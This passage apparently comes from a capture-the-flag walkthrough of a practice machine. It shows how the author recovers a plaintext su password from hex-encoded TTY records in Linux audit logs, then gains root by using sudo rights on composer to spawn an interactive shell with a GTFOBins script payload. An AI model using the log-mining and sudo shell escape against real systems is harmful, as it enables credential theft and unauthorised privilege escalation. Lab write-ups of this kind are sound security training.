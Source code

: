 
At first, I tried my best `grep` commands but the amount of data is to huge to filter the results properly. I needed to either, narrow down my search of to find a more suitable tool to filter these log files. 

After a bit of research, I've found some 2 great [article1](https://blog.selectel.com/auditing-system-events-linux/), [article2](https://blog.selectel.com/auditing-system-events-linux/)

The articles speak about a tool called `ausearch`. I didn't know it before and I was happy to see that it's available on the target machine so we don't even have install it. With that tool, we can investigate the audit log files and filter the results in a better way.

I've found a [list](https://docs.oracle.com/cd/E37100_01/doc.121/e27777/lin_eventdata.htm#SIGAU41047) of all type of events that we can use to narrow down the search. 

I looked for `tty` events and I got way less results. 

{% highlight sh %}
ausearch -m tty
{% endhighlight %}

{% highlight text %}

time->Wed Aug 12 02:28:10 2020
type=TTY msg=audit(1597199290.086:83): tty pid=2517 uid=1002 auid=0 ses=1 major=4 minor=1 comm="sh" data=7375206D7262336E0A

time->Wed Aug 12 02:28:13 2020
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A

{% endhighlight %}

Interestingly, the `data` are in `hex` so I used [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('None')&input=NkQ3MjYyMzM2RTVGNDE2MzQwNjQzMzZENzkyMTBB) to decode it and boom, we got we were looking for. 

The user `cry0l1t3` switch to user `mrb3n` using the password `mrb3n_Ac@d3my!
`.

## Root

One of the first thing I do when I escalate to a new user is runnig the `sudo -l` command. This way, I know if I can run a special command. 

In this case, we can run the `/usr/bin/composer` command. 
 
A quick search on [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) and we have our way to root. 

>TF=$(mktemp -d)
>
>echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
>
>sudo composer --working-dir=$TF run-script x

{% highlight sh %}
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>
